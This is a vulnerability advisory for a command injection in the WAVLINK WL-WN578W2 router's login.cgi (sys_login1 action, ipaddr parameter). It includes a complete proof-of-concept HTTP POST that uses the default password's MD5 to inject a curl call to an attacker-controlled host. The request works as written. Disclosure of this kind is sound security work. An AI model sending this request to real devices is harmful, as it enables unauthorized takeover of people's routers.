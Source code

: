 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection (sys\_login1 Action in login.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  Authenticated access required, but password uses fixed MD5 (no dynamic change). Attackers only need the password’s MD5 (e.g., default password) to reuse the exploit.

## Overview

A command injection vulnerability exists in the `sys_login1` action of `login.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `ipaddr` parameter in `sub_401BA4` function (login.c) lacks sanitization and is directly concatenated into system commands. With `page=sys_login1` in POST requests to `/cgi-bin/login.cgi`, attackers with the password’s MD5 can inject arbitrary commands to control the device.



![Vulnerability Flow: sys\_login1 Action Logic](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware**: M78W2\_V221110

*   **Affected Endpoint**: `/cgi-bin/login.cgi` (POST method, trigger via `page=sys_login1`)

*   **Vulnerable Code**: `ftext` function (request routing) & `sub_401BA4` function (core login logic) in login.c

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, fully control the device; exploit is reusable via fixed password MD5.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **Request Routing**: The `ftext` function parses the `page=sys_login1` parameter from the request and calls the `sub_401BA4` function to process core logic.

2.  **Password Verification**: `sub_401BA4` uses the command `echo -n '%s' | md5sum` to verify the input password (fixed MD5 encryption logic, no dynamic changes).

3.  **Command Injection**: The `ipaddr` parameter is not sanitized and is directly used in system command concatenation. Attackers can use delimiters (e.g., `;`) to inject malicious commands.



![MD5 Verification Logic: Fixed Encryption Process](./imgs/2.png)



![Vulnerable Command Flow: ipaddr Parameter Usage](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

Requires the device password’s fixed MD5 (e.g., `e10adc3949ba59abbe56e057f20f883e` corresponds to the default password `123456`).

#### Full PoC HTTP Request



```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 145
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=sys\_login1\&ipaddr=::ffff:192.168.10.154;curl http://192.168.10.154:1234#\&key=M55373357\&password=e10adc3949ba59abbe56e057f20f883e
```

#### PoC Execution Results



1.  **Fixed MD5 Generation**: Run the command `echo -n '123456' | md5sum` on a Linux terminal to generate the password hash, which matches the `password` parameter in the PoC.



![MD5 Generation: Command & Result](./imgs/4.png)



1.  **Successful Injection**: After sending the PoC request, the device executes the injected `curl` command, and the attacker’s server (192.168.10.154:1234) records the request, confirming command execution.

![Injection Success: Attacker Server Log](./imgs/5.png)


